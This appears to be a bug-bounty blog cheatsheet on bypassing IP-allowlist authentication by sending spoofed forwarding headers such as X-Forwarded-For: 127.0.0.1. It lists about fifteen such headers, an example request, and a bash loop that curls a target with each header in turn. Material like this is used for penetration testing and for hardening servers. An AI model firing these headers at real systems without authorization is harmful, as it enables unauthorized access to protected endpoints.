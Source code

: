 ```yaml
---
layout: post
title: "Cheatsheet: Auth Bypass Headers"
date: 2022-08-07 11:15 +0100
published: true
categories: [Cheatsheets]
tags: bugbounty web hacking cheatsheet
---
```


Adapted from this tweet:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">I have found multiple auth bypass issues using below Headers<a href="https://twitter.com/hashtag/bugbountytips?src=hash&amp;ref_src=twsrc%5Etfw">#bugbountytips</a> <a href="https://twitter.com/hashtag/bugbounty?src=hash&amp;ref_src=twsrc%5Etfw">#bugbounty</a> <a href="https://t.co/R82TXWiyDX">pic.twitter.com/R82TXWiyDX</a></p>&mdash; ¯\_(ツ)_/¯85 (@BountyOverflow) <a href="https://twitter.com/BountyOverflow/status/1555786315232206848?ref_src=twsrc%5Etfw">August 6, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

The following headers can potentially be used to bypass authentication on a webserver.

- X-Forwarded: 127.0.0.1
- X-Forwarded-By: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwarded-For-Original: 127.0.0.1
- X-Forwarder-For: 127.0.0.1
- X-Forward-For: 127.0.0.1
- Forwarded-For: 127.0.0.1
- Forwarded-For-Ip: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
- X-Originating-Ip: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Trusted-IP: 127.0.0.1
- X-Requested-By: 127.0.0.1
- X-Requested-For: 127.0.0.1

## Example Usage

Scenario: You try to access `/login` and get a custom `401` response that says something like:

`IP not on Whitelist!`

(not a likely response but serves as an example)

You'd then try and send the following request:

```bash
GET /login HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: bullsec.xyz
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
X-Forwarded-For: 127.0.0.1
```

> That endpoint doesn't exist on this site, don't try and bypass it...

The idea is that the webserver will parse the `X-Forwarded-For` header and assume that the request has been forwarded to it on behalf of `127.0.0.1` / `localhost` and let you access the "Blocked" `/login` endpoint. 


## Automation Block

```bash
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Trusted-IP: 127.0.0.1
X-Requested-By: 127.0.0.1
X-Requested-For: 127.0.0.1
```

> Copy the above into a text file

```bash
TARGET=<target-ip-address>
for x in $(cat headers.txt);do curl -v $TARGET -H "$x" ; done
```

That's your lot.

Enjoy,

